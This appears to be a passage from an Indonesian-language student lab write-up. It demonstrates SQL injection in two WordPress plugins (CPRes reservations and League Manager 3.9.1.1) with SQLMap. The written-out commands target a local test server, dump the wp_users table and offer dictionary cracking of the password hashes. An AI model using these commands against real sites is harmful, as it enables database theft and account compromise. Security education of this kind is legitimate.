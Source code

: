   url = http://{alamat web wordpress}?action=dex_reservations_check_posted_data
  parameter yang akan diinjeksi : dex_item
  data yang dikirimkan : dex_reservations_post=1&dex_item=1 (kedua parameter ini dibutuhkan agar tidak keluar dari fungsi dex_reservations_check_posted_data, karena pengecekan dilakukan jika kedua parameter tersebut kosong)

  1. Maka dengan SQLMap, kita masukkan perintah berikut :  
  ```
  $ sqlmap --url="http://{alamat web wordpress}/?action=dex_reservations_check_posted_data" --data="dex_reservations_post=1&dex_item=1" -p dex_item --level=5 --risk=3

  ```

  2. Tunggu script berjalan. Jika sudah selesai, maka SQLMap akan menginfokan arsitektur yang digunakan oleh server target , seperti gambar berikut :  
  ![Skenario CPRes dan SQLMap](https://raw.githubusercontent.com/ronayumik/PKSJ/master/Tugas2/Screenshot_SQLInj_CPRes/4.png)


  3. Untuk mempermudah SQLMap dalam menscan, maka kita dapat menambahkan parameter dbms pada injection selanjutnya. Misalkan pada skenario ini, kita ingin mendapatkan data users dalam wordpress tersebut, karena wordpress biasanya menggunakan tabel wp_users untuk menyimpan daftar users, maka kita dapat mencoba meng*inject* dengan perintah berikut :  
  ```
  $ sqlmap --url="http://192.168.56.1:81/wordpress/?action=dex_reservations_check_posted_data" --data="dex_reservations_post=1&dex_item=1" -p dex_item --dbms="MySQL" --level=5 --risk=3 -T wp_users --dump

  ```

  4. Jika berhasil ,Selamat, anda akan mendapatkan data users dengan password yang masih di-enkripsi / di salt. Lalu SQLMap akan 'menanyakan' apakah anda ingin mencoba meng-crack password dengan dictionary yang ada.  
  ![Skenario CPRes dan SQLMap](https://raw.githubusercontent.com/ronayumik/PKSJ/master/Tugas2/Screenshot_SQLInj_CPRes/5.png)

  5. Jika anda ingin mengcrack passwordnya , maka anda dapat memasukkan data dictionary file tersebut. Dan jika anda beruntung file dictionary tersebut memuat password yang benar dari users tersebut, akan SQLMap akan menginfokannya seperti berikut :  
  ![Skenario CPRes dan SQLMap](https://raw.githubusercontent.com/ronayumik/PKSJ/master/Tugas2/Screenshot_SQLInj_CPRes/6.png)  Password berada di kolom user_pass dan password yang telah didekripsi terdapat di dalam tanda kurung()


##### 3. Plugin League Manager 3.9.1.1 dengan tool SQLMap
  1. Seperti yang dibahas dalam  ([exploit-db](https://www.exploit-db.com/exploits/37182/)), kelemahan terdapat pada Unauthenticated SQLi (http://localhost/?match=1).

  2. Kita mencoba menggunakan SQLMap untuk mengecek apakah parameter /?match=1 bisa diinject :  
  ![Skenario League Manager dan SQLMap](https://raw.githubusercontent.com/ronayumik/PKSJ/master/Tugas2/Screenshoot_SQLInjection_SQLMap_LeagueManager/1.jpg).

  3. Terlihat bahwa parameter 'match' mengandung 'vulnerable' :  
  ![Skenario League Manager dan SQLMap](https://raw.githubusercontent.com/ronayumik/PKSJ/master/Tugas2/Screenshoot_SQLInjection_SQLMap_LeagueManager/2.jpg).

  4. Karena terdapat beberapa 'vulnerable', seperti error-based, AND/OR time-based blind, dan Union query, kami mencoba untuk melihat isi tabel nya :  
  ![Skenario League Manager dan SQLMap](https://raw.githubusercontent.com/ronayumik/PKSJ/master/Tugas2/Screenshoot_SQLInjection_SQLMap_LeagueManager/5.jpeg).

